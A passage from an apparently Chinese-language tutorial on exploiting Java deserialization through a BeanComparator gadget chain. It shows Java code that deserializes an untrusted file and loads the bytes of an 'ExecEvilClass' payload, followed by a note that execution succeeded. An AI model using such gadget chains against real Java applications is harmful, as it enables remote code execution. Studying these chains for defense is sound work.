 ```java
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
    public static byte[] getBytes() throws Exception{
        InputStream inputStream = new FileInputStream(new File("./target/classes/com/test/tool/ExecEvilClass.class"));
        ByteArrayOutputStream bao = new ByteArrayOutputStream();
        int a = -1;
        while((a = inputStream.read())!=-1){
            bao.write(a);
        }
        byte[] bytes = bao.toByteArray();
        return bytes;
    }
}
```

成功执行
![image-20221215111831994](images/image-20221215111831994.png)

但这里还遗留了一个问题，还记得我们前面说`BeanComparator`的实例化方法，默认的`comparator`属性会被设置为`ComparableComparator`类吗？我们来看看该类